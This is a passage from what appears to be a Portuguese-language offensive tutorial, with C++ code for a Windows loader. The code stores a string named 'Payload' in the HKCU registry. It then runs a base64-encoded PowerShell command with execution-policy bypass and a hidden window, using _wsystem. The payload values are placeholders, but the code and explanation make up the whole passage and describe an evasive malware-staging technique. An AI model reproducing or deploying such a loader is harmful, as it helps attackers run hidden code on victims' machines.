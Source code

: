```cpp
std::wstring ReadRegistryValue(const std::wstring& key, const std::wstring& valueName) {
    HKEY hKey;
    wchar_t value[1024];
    DWORD valueLength = sizeof(value);
    LONG result = RegOpenKeyExW(HKEY_CURRENT_USER, key.c_str(), 0, KEY_QUERY_VALUE, &hKey);
    if (result == ERROR_SUCCESS) {
        result = RegQueryValueExW(hKey, valueName.c_str(), NULL, NULL, reinterpret_cast<LPBYTE>(value), &valueLength);
        RegCloseKey(hKey);
    }
    if (result == ERROR_SUCCESS) {
        return std::wstring(value, (valueLength / sizeof(wchar_t)) - 1);
    }
    return L"";
}
```

```cpp
void RunCommand(const std::wstring& command) {
    _wsystem(command.c_str());
}
```

---
### Função Principal

Agora o código main faz resumidamente o seguinte, ele vai definir as strings part1 part2... que vamos copiar do código em c++ gerado.
então vai definir a chave e o valor do registro. tambem vai verificar se o valor atual do registro é diferente do valor desejado, se for diferente vai atualizar o registro.
e se o valor já estiver atualizado, exibe uma mensagem indicando isso. e por fim executa nosso comando PowerShell codificado em base64 usando a função RunCommand.

```cpp
int main() {
    std::wstring part1 = L"ABCDEVGHIJK";

    std::wstring fullString = part1;
   
    std::wstring registryKey = L"SOFTWARE\\Payload";
    std::wstring registryValueName = L"Payload";
    std::wstring registryValue = fullString;

    if (ReadRegistryValue(registryKey, registryValueName) != registryValue) {
        if (WriteRegistryValue(registryKey, registryValueName, registryValue)) {
            std::wcout << L"Valor do registro escrito com sucesso." << std::endl;
        }
        else {
            std::wcerr << L"Erro ao escrever o valor do registro." << std::endl;
        }
    }
    else {
        std::wcout << L"Valor do registro ja esta atualizado." << std::endl;
    }

    std::wstring fullCommand = L"Powershell -noexit -exec bypass -window 1 -enc ABCDE=";
    RunCommand(fullCommand);
    return 0;
}
```

---